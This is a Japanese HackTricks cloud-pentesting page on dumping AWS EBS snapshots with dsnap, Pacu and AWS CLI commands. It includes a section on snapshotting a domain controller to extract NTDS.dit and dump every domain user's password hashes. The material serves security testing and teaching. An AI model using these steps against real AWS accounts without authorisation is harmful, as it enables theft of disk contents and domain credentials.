 # AWS - EBS スナップショットのダンプ

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricks** で **会社の広告を見たい場合**や、**最新バージョンのPEASSを入手したい場合**、または **HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

### ローカルでスナップショットを確認する
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
このテクニックの詳細については、[https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)のオリジナルの研究を参照してください。

Pacuを使用して、[ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)モジュールを使用してこれを行うことができます。

### AWSでスナップショットを確認する

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**EC2 VMでマウントする**（バックアップのコピーと同じリージョンにある必要があります）：

**ステップ1：** EC2 -&gt; ボリュームに移動し、好みのサイズとタイプで新しいボリュームを作成します。

**ステップ2：** 作成したボリュームを選択し、右クリックして「ボリュームのアタッチ」オプションを選択します。

**ステップ3：** 以下のようにインスタンステキストボックスからインスタンスを選択します。

![](<../../../../.gitbook/assets/image (6) (1) (1).png>)

**ステップ4：** 今、ec2インスタンスにログインし、次のコマンドを使用して利用可能なディスクをリストします。
```
lsblk
```
上記のコマンドは、インスタンスに接続したディスクをリストアップします。

**ステップ5：**

![](<../../../../.gitbook/assets/image (59).png>)

Pacuを使用して、ebs\_\_explore\_snapshotsモジュールを使用してこれを行うことができます。

### AWSでスナップショットを確認する（CLIを使用）
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### シャドウコピー

**`EC2:CreateSnapshot`** 権限を持つ任意のAWSユーザーは、ドメインコントローラーのスナップショットを作成し、それを制御しているインスタンスにマウントし、Impacketのsecretsdumpプロジェクトで使用するためにNTDS.ditおよびSYSTEMレジストリハイブファイルをエクスポートすることで、すべてのドメインユーザーのハッシュを盗むことができます。

この攻撃を自動化するために、次のツールを使用できます：[https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) または、スナップショットを作成した後、以前の技術のいずれかを使用することもできます。

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**最新バージョンのPEASSを入手したい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見する
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)をフォローする。
* **ハッキングのトリックを共有する**ために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する。

</details>
